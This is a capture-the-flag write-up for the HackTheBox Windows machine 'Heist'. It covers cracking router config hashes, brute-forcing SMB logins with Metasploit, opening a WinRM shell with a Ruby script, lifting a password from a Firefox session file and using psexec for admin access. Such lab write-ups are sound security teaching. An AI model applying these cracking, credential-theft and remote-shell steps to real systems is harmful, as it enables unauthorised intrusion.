 # Heist - HackTheBox
## Windows - Easy

### Nmap
We have HTTP, SMB, WinRM on ports 80, 445, 5986, as well as other useless Windows services.

### HTTP
We are greeted by a login page. Trying some usual creds doesn't work. However, we can login as a guest. Doing so, we are redirected to `issues.php`, where a user called `hazard` asks for support for his router. He gives a router config file `config.txt`:
```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

--- snip ---
```
We crack the `$1$` hash using hashcat and rockyou, and find the password `stealth1agent`.

The other two hashes are Cisco hashes and can be cracked using this [site](http://www.ifm.net.nz/cookbooks/passwordcracker.html).

Afterwards, the `hazard` user asks to have an account on the server.

### SMB
We try to login to SMB as `hazard` with the cracked passwords found above. `stealth1agent` works. However we only have access to `IPC$` which doesn't give anything.

We need to find other usernames for the other hashes. We use impacket's `lookupsid.py`:
```bash
$ lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

We create a `users.txt`:
```
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
None
Hazard
support
Chase
Jason
```
and `passes.txt`:
```
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```
to bruteforce creds. We do so using the metasploit module `auxiliary/scanner/smb/smb_login` with these files and get a positive on `Chase:Q4)sJu\Y8qz*A3?d`.

### WinRM
We get a shell on the box using the creds above and WinRM. We use the ruby script:
```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.149:5985/wsman',
  user: 'Chase',
  password: 'Q4)sJu\Y8qz*A3?d',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
which gives us a shell as `Chase`. We can get the `user.txt` there.

### PrivEsc
Running `ps` we get the running processes. Firefox stands out. We go to the FireFox profile of our users at `C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles` and download it to our box (using meterpreter for example).

Grepping for `password` in this profile directory gives this interesting result:
```bash
$ grep -a -R -i password .
--- snip ---
./sessionstore-backups/recovery.jsonlz4:password=4dD!5}x/re8]FBuZ n
--- snip ---
```
Looking at this file in more details, we get:
```
--- snip ---
5��://local2�/issues.phpI
R�! I��e4b94c39-95b2-47e7-b235-a3d1e0293736�
z
�Plogin�?
_���=admin@support.htb&!�
password=4dD!5}x/re8]FBuZ n
--- snip ---
```
This suggests that `admin@support.htb:4dD!5}x/re8]FBuZ` is a valid cred for the login page. Trying it and it works!

Trying the cred `admin:4dD!5}x/re8]FBuZ` on SMB, we have WRITE access everywhere. So we can `psexec` and get a shell as root!

